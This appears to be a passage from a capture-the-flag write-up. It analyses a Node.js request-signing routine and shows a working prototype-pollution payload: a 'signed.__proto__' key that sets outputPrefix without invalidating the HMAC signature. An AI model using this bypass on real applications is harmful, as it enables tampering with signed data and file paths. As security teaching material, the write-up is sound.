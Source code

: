 - Analyzing `getSignedData()` function, it will check any parameter that starts with prefix `signed.`

```js
const SIGNED_PREFIX = "signed.";
const getSignedData = (data: any): any => {
  const signedParams: any = {};
  for (const param in data) {
    if (param.startsWith(SIGNED_PREFIX)) {
      const keyName = param.slice(SIGNED_PREFIX.length);
      signedParams[keyName] = data[param];
    }
  }
  return signedParams;
};

// Examples
// Input : "signed.name":"somevalue"
// Process : signedParams["name"] = data["signed.name"]
```

- Analyzing `getSignature()` and `hasValidSignature()` function it will loop our object and create a `signature` based on the `key` and `value`.
- It will then compare the `signature` calculated and the signature we give in the request.

```js
const getSignature = (data: any): string => {
  const toSignArray = Object.entries(data).map(([k, v]) => `${k}=${v}`);
  toSignArray.sort();
  return createHmac('sha256', SECRET_KEY)
    .update(toSignArray.join("&"))
    .digest("hex");
};

const hasValidSignature = (data: any, signature: string): boolean => {
  const signedInput = getSignature(data);
  return signedInput === signature
};
```

**A. Bypass The Signature with Prototype Pollution**

The next interesting variable is `outputPrefix`, as it could change the filename if we can control it. But, how can we alter our JSON `signed` body without affect the `signature` value? The following code is to verify if we could use `prototype pollution` to change the value of `outputPrefix`

```js
const body = {
    "data":{"signed.name":"jeff","signed.animalType":"emu","signed.age":12,"signed.crime":"assault","signed.description":"clotheslined someone with their neck","signed.start":"2024-03-02T10:45:01Z","signed.release":"2054-03-02T10:45:01Z","signed.__proto__":{"outputPrefix":"hijack"}},"signature":"718494ab34fb37e1adeea4b4c87de8feb9aa504310d8c67af693928d6377af13"
};
const SIGNED_PREFIX = "signed.";
const getSignedData = (data) => {
  const signedParams = {};
  for (const param in data) {
    if (param.startsWith(SIGNED_PREFIX)) {
      const keyName = param.slice(SIGNED_PREFIX.length);
      signedParams[keyName] = data[param];
    }
  }
  return signedParams;
};
const signedData = getSignedData(body.data)
console.log(signedData.outputPrefix);
// Output : hijack
```